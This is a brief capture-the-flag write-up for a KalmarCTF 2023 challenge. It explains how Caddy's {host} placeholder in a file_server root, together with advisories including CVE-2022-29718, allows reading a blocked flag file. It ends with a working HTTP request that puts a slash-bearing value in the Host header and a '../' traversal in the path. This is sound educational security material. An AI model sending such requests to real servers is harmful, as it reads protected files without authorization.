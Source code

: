 # mjs
###### tags: `KalmarCTF` `2023` `pwn` `web` `mjs` `javascript` `runtime`

>I couldn't solve it during the game, so I looked at the writeup. I'm sorry you couldn't solve this one.

this is Caddy File.

```
{
    admin off
    local_certs  # Let's not spam Let's Encrypt
}

caddy.chal-kalmarc.tf {
    redir https://www.caddy.chal-kalmarc.tf
}

#php.caddy.chal-kalmarc.tf {
#    php_fastcgi localhost:9000
#}

flag.caddy.chal-kalmarc.tf {
    respond 418
}

*.caddy.chal-kalmarc.tf {
    encode zstd gzip
    log {
        output stderr
        level DEBUG
    }

    # block accidental exposure of flags:
    respond /flag.txt 403

    tls /etc/ssl/certs/caddy.pem /etc/ssl/private/caddy.key {
        on_demand
    }

    file_server {
        root /srv/{host}/
    }
}
```

```root /srv/{host}/``` meant that  when request came to service, since hostname replace {host}, can allow access to /srv/hostname .

this come from the ["placeholder"](https://caddyserver.com/docs/conventions#placeholders) of caddy

Now let's see the challenge,

since php is disabled.

this means that traversing to the https://php.caddy.chal-kalmarc.tf/index.php will not call the php iinterpreter to evaluate the code.



according to writeup, it seem to following two cve's connected closely this challenge

* https://github.com/advisories/GHSA-2927-hv3p-f3vp
* https://github.com/advisories/GHSA-qpm3-vr34-h8w8

According to  chat from kalmar ctf of channel on discord,

vuln can exist by [CVE-2022-29718](https://github.com/advisories/GHSA-2927-hv3p-f3vp) 

there were [good forum](https://caddy.community/t/php-fastcgi-phishing-redirection/14542/15)

![](https://i.imgur.com/7U80KuH.png)


so i tried

```
GET /b/../flag.txt HTTP/2
Host: backups/php.caddy.chal-kalmarc.tf
```

i got flag!!

